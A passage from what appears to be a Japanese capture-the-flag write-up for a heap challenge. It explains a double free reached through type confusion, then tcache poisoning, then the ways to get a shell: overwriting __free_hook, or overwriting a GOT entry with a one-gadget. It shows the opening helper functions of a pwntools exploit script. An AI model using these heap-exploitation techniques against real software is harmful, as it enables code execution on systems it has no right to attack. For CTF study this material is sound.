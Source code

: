 ここで`Value_SetUndefined`が有るため、同じインデックスを2度deleteで指定してDouble Freeという事はおそらく出来ない。しかし違うインデックスで同じアドレスを指すポインタを用意しておけばどちらもdeleteすることでDouble Freeが出来る。
今回は事前にString型として仕込んだポインタが指す先を調べておき、そこと同じ値になるようなDouble型を計算して型を偽装した。

これでtcache poisoningが出来るのでサイズ0x80のtcacheの先頭に書き込みたいアドレスが来るようにする。
但し、前述したように`__free_hook`を直接書き換えるのは`get_integer`中の`free`が走って終わるのでちょっと上を`"/bin/sh\x00"`に書き換えるついでにその下にある`__free_hook`にsystem関数のアドレスを同時に入れる等の工夫が居る。

一方私は、運に任せてPartial RELROであることを利用して`get_integer`中で呼ばれている`atoi`(実際は`strtol`)のGOTをOne Gadgetで書き換える事にした。
無事に刺さって良かったです。

## Code

```python=
import struct
import binascii
from pwn import p64, u64, ELF, process, remote
from xlog import XLog


logger = XLog("EXPLOIT")


# you need filling this variables
PROMPT_CHAR = "> "
CREATE_NUM = 1
EDIT_NUM = None
DELETE_NUM = 3
SHOW_NUM = 2


def select(s, sel, c=PROMPT_CHAR):
    if sel is None or c is None:
        logger.warning("please fill above variables")
        exit(-1)
    s.recvuntil(c)
    s.sendline(str(sel))


# heap commands
def create(s, i, _type, data):
    select(s, CREATE_NUM)
    s.recvuntil("index: ")
    s.sendline(str(i))
    s.recvuntil("type (1=String / 2=Double / 3=Integer): ")
    s.sendline(str(_type))
    s.recvuntil("data: ")
    s.sendline(data)


def delete(s, i):
    select(s, DELETE_NUM)
    s.recvuntil("index: ")
    s.sendline(str(i))


def show(s, i):
    select(s, SHOW_NUM)
    s.recvuntil(f"{i}: [")
    _type = s.recvuntil("]")[:-1]
    s.recvuntil(' "')
    res = s.recvline()[:-2]

    return res
```